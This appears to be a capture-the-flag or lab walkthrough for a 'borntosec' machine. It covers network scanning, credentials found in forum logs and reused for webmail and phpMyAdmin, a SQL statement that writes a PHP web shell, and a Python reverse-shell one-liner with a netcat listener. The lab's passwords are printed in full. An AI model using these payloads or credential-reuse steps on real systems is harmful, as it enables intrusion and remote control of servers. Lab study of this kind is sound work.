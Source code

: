 ## nmap
scan the network 10.11.0.0/16
```
Nmap scan report for 10.11.100.94
Host is up (0.0013s latency).
Not shown: 994 closed tcp ports (conn-refused)
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```

## dirb 

DIRB IS a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.
![ alt text for screen readers](imgs/dirb_scanHTTP.png "dirb_scanHTTP")
![ alt text for screen readers](imgs/dirb_scanHTTPS.png "dirb_scanHTTP")

## 
from threats posted on the forum i found an intersting one "login problem"
reading the logs , a line says: 'Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2'
    - sounds like someone write a password in username field.
    - tried to connect using ssh users form forum and this password (didn't work)
    - tried to log in to forum with:
    ```
    username: lmezard
    password: !q\]Ej?*5K5cy*AJ
    ```
    - it works , i also got the email from the user profile
    email: laurie@borntosec.net

### The same password was used to log in to webmail
    user: laurie@borntosec.net
    password: !q\]Ej?*5K5cy*AJ

+ on the inbox i there's a mail contain credential to a databases 
![ alt text for screen readers](imgs/db_access.png "db credentials")

## access phpMyAdmin

login: root

password: Fg-'kKXBj87E:aJ$

## inject a webshell in sql 
ressource: https://www.hackingarticles.in/shell-uploading-web-server-phpmyadmin/
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/pyload.php"



export RHOST="10.12.100.143";export RPORT=3412;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'

## GET a foothold on the machine 

open a port and start listening for incoming connection

nc -lk -p 3412

encode the pyload and pass it to cmd in : https://10.12.100.143/?cmd=(encoded pyload)
